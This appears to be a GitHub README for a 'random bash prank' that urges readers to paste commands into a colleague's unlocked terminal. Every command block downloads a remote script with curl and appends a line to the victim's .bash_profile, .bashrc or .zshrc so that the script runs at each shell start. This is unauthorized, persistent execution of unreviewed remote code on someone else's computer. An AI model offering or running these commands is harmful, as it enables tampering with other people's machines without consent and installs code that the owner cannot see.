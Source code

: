 # Random bash prank

Your colleague did not block his computer?
Well, all you have to do is copy-paste below lines into your friend's terminal. 
Hopefully she or he uses some kind of bash :)

#### Copy-paste lines below into a terminal

Just for your convenience three lines in one box, so that you can save some time :)

```bash
curl -s https://raw.githubusercontent.com/localhost-dev/random-bash-prank/master/random-prank.sh -o ~/.extra-profile.sh && echo "source ~/.extra-profile.sh" >> ~/.bash_profile
curl -s https://raw.githubusercontent.com/localhost-dev/random-bash-prank/master/random-prank.sh -o ~/.extra-profile.sh && echo "source ~/.extra-profile.sh" >> ~/.bashrc
curl -s https://raw.githubusercontent.com/localhost-dev/random-bash-prank/master/random-prank.sh -o ~/.extra-profile.sh && echo "source ~/.extra-profile.sh" >> ~/.zshrc
```

##### .bash_profile

```bash
curl -s https://raw.githubusercontent.com/localhost-dev/random-bash-prank/master/random-prank.sh -o ~/.extra-profile.sh && echo "source ~/.extra-profile.sh" >> ~/.bash_profile
```

##### .bashrc

```bash
curl -s https://raw.githubusercontent.com/localhost-dev/random-bash-prank/master/random-prank.sh -o ~/.extra-profile.sh && echo "source ~/.extra-profile.sh" >> ~/.bashrc
```

##### .zshrc

```bash
curl -s https://raw.githubusercontent.com/localhost-dev/random-bash-prank/master/random-prank.sh -o ~/.extra-profile.sh && echo "source ~/.extra-profile.sh" >> ~/.zshrc
```

#### Short link to this repo

Just remember this short link, and you are good to go: 
http://tiny.cc/bashprank
